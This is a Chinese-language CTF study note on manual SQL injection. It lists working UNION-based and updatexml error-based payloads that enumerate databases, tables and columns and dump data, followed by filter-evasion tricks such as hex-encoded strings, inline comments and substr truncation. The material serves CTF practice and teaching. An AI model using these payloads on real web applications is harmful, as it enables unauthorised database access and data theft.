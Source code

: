 ```yaml
---
title: CTF SQLI
toc: true
date: 2021-04-25 17:12:07
tags: CTF
categories: [100 Cyber security, 120 CTF, 121 Web ]
---
```


### 手注流程
1. 页面里有一个POST表单，测试会不会有注入漏洞
    POST里
    id=1'和id=1'#
    id=1' and 1=2#和id=1' and 1=1#
    前一个不回显后一个回显，那么说明存在注入。
1. 判断字段数：有四个字段
    id=1' order by 4#
1. 判断回显位：
    id=1' union select 1,2,3,4# 有正常回显
    id=1' union select 1,2,3# 无回显，证明该数据库在第四位，查询该数据库名

1. id=0' union select 1,2,3,database()# 查到表名为skctf，继续查数据表（tables）名
1. id=0' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema='skctf'#
1. id=0' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name='fl4g'#
1. 查询数据：
    id=0' union select 1,2,3,skctf_flag from fl4g#
    得到flag。

### 手注变种：报错注入
https://www.cnblogs.com/c1047509362/p/12806297.html
1. `1'or(updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1))='1` 爆出数据库
1. `1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))，0x7e),1))='1` 爆当前数据库表信息
1. `1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_schema=wp_links)and(table_name='users')),0x7e),1))='1` 爆user表字段信息
1. `1' and updatexml(1,concat(0x7e,(select group_concat(first_name,0x7e,last_name) from dvwa.users)),1) #` 爆数据库内容
ref：https://www.codenong.com/cs106450896/

#### 报错注入变种：无单引号版
1. aid=(select%201%20and%201=updatexml(1,concat(0x7e,(select(user())),0x73),1))&target=1

### 注入各种问题处理方法
1. 提示输出信息超过一行：使用group_concat,eg:3'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema='test')),0x7e),1))='1
字符串超过group_concat限制，使用limit 0,1单独输出，limit 0,1 表示输出第一个数据。 0表示输出的起始位置，1表示跨度为1（即输出几个数据，1表示输出一个，2就表示输出两个）。
ref：https://blog.csdn.net/forwardss/article/details/104682924
1. 替代空格：
    * 使用括号，eg：`3'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema='test')),0x7e),1))='1`
    * 使用内联注释：`/**/`
1. 报错注入，返回值XPATH syntax error有长度限制，为32bytes。使用substr截取需要的部分回显`updatexml(1,concat(0x7e,substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),1,32),0x73),1)`
1. 单引号被转义为\：用0x5C替代单引号
ref：https://www.cnblogs.com/lwfiwo/p/11314408.html
    1. 引号绕过导致table_name='user'不能用：user转换成十六进制编码0x7573657273
    ref：https://blog.csdn.net/weixin_39846361/article/details/113301753

### 其它资源
1. sqlmap源码payload构成：https://www.anquanke.com/post/id/188173#h2-3
1. https://cloud.tencent.com/developer/article/1669841
1. https://www.yuque.com/vipkylin/vunko7/svhwwn
